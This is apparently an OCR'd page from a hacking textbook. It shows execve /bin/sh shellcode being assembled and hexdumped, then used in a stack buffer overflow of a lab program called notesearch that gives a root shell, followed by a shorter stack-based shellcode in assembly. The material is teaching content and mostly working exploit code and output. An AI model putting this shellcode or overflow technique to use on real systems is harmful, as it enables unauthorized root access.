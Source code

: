 ```asm6502
```

```bash
reader@hacking:~/booksrc $ nasm exec_shell.s
reader@hacking:~/booksrc $ wc -c exec_shell
36 exec_shell
reader@hacking:~/booksrc $ hexdump -C exec_shell
00000000 eb 16 5b 31 c0 88 43 07 89 5b 08 89 43 0c 8d 4b |..[1..C..[..C..K|
00000010 08 8d 53 0c b0 0b cd 80 e8 e5 ff ff ff 2f 62 69 |..S........../bi|
00000020 6e 2f 73 68 |n/sh|
00000024
reader@hacking:~/booksrc $ export SHELLCODE=$(cat exec_shell)
reader@hacking:~/booksrc $ ./getenvaddr SHELLCODE ./notesearch
SHELLCODE will be at 0xbffff9c0
reader@hacking:~/booksrc $ ./notesearch $(perl -e 'print "\xc0\xf9\xff\xbf"x40')
[DEBUG] found a 34 byte note for user id 999
[DEBUG] found a 41 byte note for user id 999
[DEBUG] found a 5 byte note for user id 999
[DEBUG] found a 35 byte note for user id 999
[DEBUG] found a 9 byte note for user id 999
[DEBUG] found a 33 byte note for user id 999
-------[ end of note data ]-------
298 0x500
sh-3.2# whoami
root
sh-3.2#
```

The same result with a smaller size can be obtained using ESP instead of registers inside the shellcode:

```asm6502
BITS 32
; execve(const char *filename, char *const argv [], char *const envp[])
xor eax, eax 			; Zero out eax.
push eax 				; Push some nulls for string termination.
push 0x68732f2f 		; Push "//sh" to the stack.
push 0x6e69622f 		; Push "/bin" to the stack.
mov ebx, esp 			; Put the address of "/bin//sh" into ebx, via esp.
push eax 				; Push 32-bit null terminator to stack.
mov edx, esp 			; This is an empty array for envp.
push ebx 				; Push string addr to stack above null terminator.
mov ecx, esp 			; This is the argv array with string ptr.
mov al, 11 				; Syscall #11.
int 0x80 				; Do it.
```